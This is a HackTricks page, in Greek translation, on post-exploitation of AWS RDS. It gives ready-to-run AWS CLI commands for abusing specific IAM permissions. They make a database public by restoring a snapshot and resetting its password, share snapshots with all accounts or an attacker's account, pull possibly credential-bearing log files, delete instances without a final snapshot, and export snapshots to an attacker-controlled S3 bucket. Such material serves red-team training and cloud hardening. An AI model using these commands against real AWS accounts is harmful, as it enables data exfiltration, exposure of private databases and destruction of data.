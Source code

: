 # AWS - RDS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Εάν ο επιτιθέμενος έχει αρκετές άδειες, θα μπορούσε να κάνει μια **DB δημόσια προσβάσιμη** δημιουργώντας ένα στιγμιότυπο της DB και στη συνέχεια μια δημόσια προσβάσιμη DB από το στιγμιότυπο.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Ένας επιτιθέμενος με αυτές τις άδειες θα μπορούσε **να δημιουργήσει ένα στιγμιότυπο μιας βάσης δεδομένων** και να το κάνει **δημόσια** **διαθέσιμο**. Στη συνέχεια, θα μπορούσε απλώς να δημιουργήσει στον δικό του λογαριασμό μια βάση δεδομένων από αυτό το στιγμιότυπο.

Αν ο επιτιθέμενος **δεν έχει την `rds:CreateDBSnapshot`**, θα μπορούσε ακόμα να κάνει **άλλα** δημιουργημένα στιγμιότυπα **δημόσια**.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

Ένας επιτιθέμενος με την άδεια `rds:DownloadDBLogFilePortion` μπορεί να **κατεβάσει τμήματα των αρχείων καταγραφής μιας RDS παρουσίας**. Εάν ευαίσθητα δεδομένα ή διαπιστευτήρια πρόσβασης καταγραφούν κατά λάθος, ο επιτιθέμενος θα μπορούσε ενδεχομένως να χρησιμοποιήσει αυτές τις πληροφορίες για να κλιμακώσει τα προνόμιά του ή να εκτελέσει μη εξουσιοδοτημένες ενέργειες.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητες πληροφορίες ή μη εξουσιοδοτημένες ενέργειες χρησιμοποιώντας διαρρεύσαντα διαπιστευτήρια.

### `rds:DeleteDBInstance`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **DoS υπάρχουσες RDS περιπτώσεις**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Πιθανές επιπτώσεις**: Διαγραφή υπαρχόντων RDS instances και πιθανή απώλεια δεδομένων.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Δοκιμή
{% endhint %}

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να **εξάγει ένα στιγμιότυπο RDS instance σε ένα S3 bucket**. Εάν ο επιτιθέμενος έχει έλεγχο πάνω στο προορισμένο S3 bucket, μπορεί να έχει πρόσβαση σε ευαίσθητα δεδομένα μέσα στο εξαγόμενο στιγμιότυπο.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Πιθανές επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα στο εξαγόμενο στιγμιότυπο.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
